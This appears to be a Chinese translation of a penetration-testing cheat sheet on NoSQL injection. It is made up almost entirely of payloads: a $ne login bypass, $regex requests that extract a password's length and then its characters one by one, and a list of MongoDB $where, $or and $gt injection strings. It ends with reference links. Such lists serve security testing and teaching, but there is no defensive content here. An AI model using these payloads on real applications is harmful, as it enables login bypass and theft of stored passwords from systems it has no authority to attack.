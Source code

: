 # 非关系型数据库
非关系型数据库相比传统的数据库提供更宽松的一致性限制。通过减少关系约束和一致性检查,非关系型数据库通常提供性能和扩展优势。然而,即使它们不使用传统的数据库语法，这些数据库仍然可能容易受到注入攻击。

## 攻击
 
使用不相等的基本身份验证旁路 ($ne)
```
username[$ne]=toto&password[$ne]=toto
```
 
提取长度信息
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

提取数据信息
```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

## MongoDB有效载荷
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```


## 感谢
* https://www.dailysecurity.fr/nosql-injections-classique-blind/
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection
* https://github.com/cr0hn/nosqlinjection_wordlists

